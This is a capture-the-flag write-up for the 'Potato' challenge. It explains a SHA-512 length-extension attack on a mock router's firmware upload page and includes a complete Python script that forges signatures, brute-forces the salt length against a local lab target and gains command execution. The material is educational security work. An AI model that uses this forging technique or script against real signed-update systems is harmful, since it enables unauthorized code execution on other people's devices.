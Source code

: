# Potato

This challenge was made by my good friend [flawwan](https://github.com/flawwan/) and me. Here's how we thought this challenge should be solved. 

![](pics/potato.png)

### Summary

* Uploaded `sh` files are executed if signature matches
* Example file and signature are downloadable
* Signature is calculated: 
  * `sha512( concatenate($SALT, $filecontents) )`
* Unknown salt and salt length
* Signature can be predicted if:
  * The new data is appended to original data
    * The new data will be prepended by junk, but the last row of the original file is a comment, so the junk will be commented out
* Solution: guess the salt length and prepend your payload with a newline.
  * A hint was later released: "9 is a good number". This was the salt length.

### Walkthrough
We are given a link to a router configuration portal by "Potato Router Systems"

![](pics/login.gif)

The login is admin:admin. This was released as a hint.
Once logged in, we can download the running "firmware" and its signature. We are also able to upload new "firmware", provided that we have a signature for it. 

![](pics/uploadsite.png)

The contents of the original `firmware.bin`:
``` 
echo 'Welcome to super secure router alpha 0.01'
#Provide a neat motd for the user.

#TODO Add some security checks. This script should be secure. i dunno
```
Seems like the site runs this file to provide the welcome message.

**Note** for later: the last line of the file is a comment (`#`) and does not end with a newline.

The `firmware.sig` is just a sha512 hash:
```c41e06714618b4248a4efa4980a67d2f0b2bb0caaeb7f4240b6e8e11d1d1b6461182713b57d405209cff46ec19c0c7fe931b374e63e822cf8ea933c51b33d760```

We also get to see the PHP used for this upload page. Here, we can see how the signature is calculated. The unknown salt is prepended to the binary contents, and then the sha512 signature is calculated and compared to the uploaded signature. If it's a match, the original firmware is overwritten by the new one.
![](pics/hashcomparison.png)

### Solution
Since we have the original data and its signature, we can use this to append data and predict the signature, provided that we know or can guess the length of `$SALT`. There are multiple different tools for this - In this case we use [HashPump](https://github.com/bwall/HashPump).

```
>>> import hashpumpy
>>> help(hashpumpy.hashpump)
Help on built-in function hashpump in module hashpumpy:

hashpump(...)
    hashpump(hexdigest, original_data, data_to_add, key_length) -> (digest, message)

    Arguments:
        hexdigest(str):      Hex-encoded result of hashing key + original_data.
        original_data(str):  Known data used to get the hash result hexdigest.
        data_to_add(str):    Data to append
        key_length(int):     Length of unknown data prepended to the hash

    Returns:
        A tuple containing the new hex digest and the new message.
>>> hashpumpy.hashpump('ffffffff', 'original_data', 'data_to_add', len('KEYKEYKEY'))
('e3c4a05f', 'original_datadata_to_add')
```

For this to work however, the extension attack must add junk data inbetween the original data and the appended payload. Remember the note from earlier? The last line of the original file is commented out, so the junk data will also be commented out. If our payload starts with a newline, our payload file will be both valid and executed.

So we can create a script which guesses the salt length by incrementing until we no longer get "Bad signature...":
#### exploit.py
```python
#!/usr/bin/python3

import sys
import requests
from hashpumpy import hashpump
from time import sleep

def forge_stuff(salt_length):
    with open("firmware.bin", "r") as fh:
        original_data = fh.read()
    with open("firmware.sig", "r") as fh:
        original_sig = fh.read()

    data_to_add = "\necho hej"

    result = hashpump(original_sig,
                      original_data, 
                      data_to_add, 
                      salt_length)

    with open("payload.sig", "w") as fh:
        fh.write(result[0])

    with open("payload.bin", "wb") as fh:
        fh.write(result[1])


login={"username":"admin", "password":"admin", "submit":""}
s = requests.Session() 
r = s.post("http://localhost:58888/login.php", data=login)
i=1

while "Bad" in r.text:
    forge_stuff(i)
    with open("payload.sig", "rb") as signature:
        with open("payload.bin", "rb") as payload:
            files={ "sig": signature, "bin" : payload}
            r=s.post("http://localhost:58888/update.php", data={"submit":""}, files=files)
            sleep(0.1)
    i+=1

print(r.text)
print("\n\n\nSalt length: %s" % str(i-1))
```

And we find that the salt length is 9.
```
$ ./exploit.py 
...<omitted>...

Salt length: 9
```

Now we have command execution and are able to `cat /flag`.

![](pics/flag.png)